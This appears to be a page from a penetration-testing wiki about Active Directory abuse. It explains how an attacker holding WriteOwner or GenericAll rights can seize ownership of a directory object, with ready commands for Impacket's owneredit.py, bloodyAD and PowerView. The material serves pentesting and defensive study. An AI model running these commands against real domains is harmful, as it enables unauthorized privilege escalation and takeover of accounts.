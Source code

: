 ```yaml
---
authors: CravateRouge, ShutdownRepo, sckdev
---
```


# Grant ownership

t has the following command-line arguments.This abuse can be carried out when controlling an object that has `WriteOwner` or `GenericAll` over any object.

The attacker can update the owner of the target object. Once the object owner has been changed to a principal the attacker controls, the attacker may manipulate the object any way they see fit. For instance, the attacker could change the target object's permissions and [grant rights](grant-rights.md).

::: tabs

=== UNIX-like

From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s owneredit.py (Python).

```bash
owneredit.py -action write -owner 'attacker' -target 'victim' 'DOMAIN'/'USER':'PASSWORD'
```

Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set owner $TargetObject $ControlledPrincipal
```


=== Windows

From Windows systems, this can be achieved with [Set-DomainObjectOwner](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObjectOwner/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
Set-DomainObjectOwner -Identity 'target_object' -OwnerIdentity 'controlled_principal'
```

:::

